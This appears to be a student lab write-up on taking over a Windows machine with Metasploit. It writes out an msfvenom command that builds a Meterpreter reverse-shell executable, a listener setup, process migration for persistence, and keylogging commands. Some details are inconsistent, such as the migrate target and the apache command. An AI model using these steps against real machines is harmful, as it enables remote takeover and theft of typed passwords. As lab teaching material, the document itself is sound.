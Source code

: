 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
OUTPUT:
![image](https://github.com/user-attachments/assets/95aa0e26-a6f5-43af-97c5-6b6646479fd2)
Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

OUTPUT:
![image](https://github.com/user-attachments/assets/3928166a-becd-449a-b230-3cffaff8490f)
copy the fun.exe into the apache /var/www/html folder 
![image](https://github.com/user-attachments/assets/27d7346c-538b-472e-96f5-d1921ff62019)
Start apache server sudo systemctl apache2 start
![image](https://github.com/user-attachments/assets/0a0a3173-0b02-40d7-9117-49748f953d8d)

Check the status of apache2 
![image](https://github.com/user-attachments/assets/329c0399-94d9-4896-9129-bb78a8426b2e)
Invoke msfconsole:

OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

![image](https://github.com/user-attachments/assets/ce5096ba-9a77-4906-8c4e-d2d51ff1c826)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: 
http://192.168.1.2/fun.exe
The file "fun.exe" downloads.
![image](https://github.com/user-attachments/assets/6fd5a5b6-1f9e-40aa-826d-16dd33fd3c16)
Bypass any warning boxes, double-click the file, and allow it to run.
On kali give the command exploit
![image](https://github.com/user-attachments/assets/3a2e0b01-8eed-475c-ab9f-7bb7ed49b23e)
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:
migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![image](https://github.com/user-attachments/assets/e18a3617-a760-4dd7-a551-4a0c798b4221)
Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/user-attachments/assets/308f6940-cc27-4c87-9f94-97f5a34bee66)
keyscan_dump Shows the keystrokes captured so far

![image](https://github.com/user-attachments/assets/964d658f-5501-4818-a5e4-b7e7ee24e014)


## RESULT:

The Metasploit framework for reconnaissance is examined successfully
